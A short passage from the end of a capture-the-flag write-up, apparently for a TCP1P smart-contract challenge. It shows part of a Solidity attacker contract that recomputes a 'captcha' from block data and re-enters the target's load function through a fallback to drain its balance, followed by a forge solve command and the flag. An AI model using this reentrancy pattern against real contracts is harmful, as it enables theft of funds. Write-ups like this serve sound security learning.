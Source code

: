 ```js
        uint256 captcha = uint256(keccak256(abi.encodePacked(secret, block.number, block.timestamp)));
        money.save{value: msg.value}();
        money.load(captcha);
    }
    fallback() external payable {
        if(address(money).balance > 0) {
            uint256 captcha = uint256(keccak256(abi.encodePacked(secret, block.number, block.timestamp)));
            money.load(captcha);
        }
    }
}
```

```
forge script script/Solve.s.sol:Solve --rpc-url $RPC_URL 
```

**Flag#** TCP1P{retrancy_attack_plus_not_so_random_captcha}

---

Thanks for reading!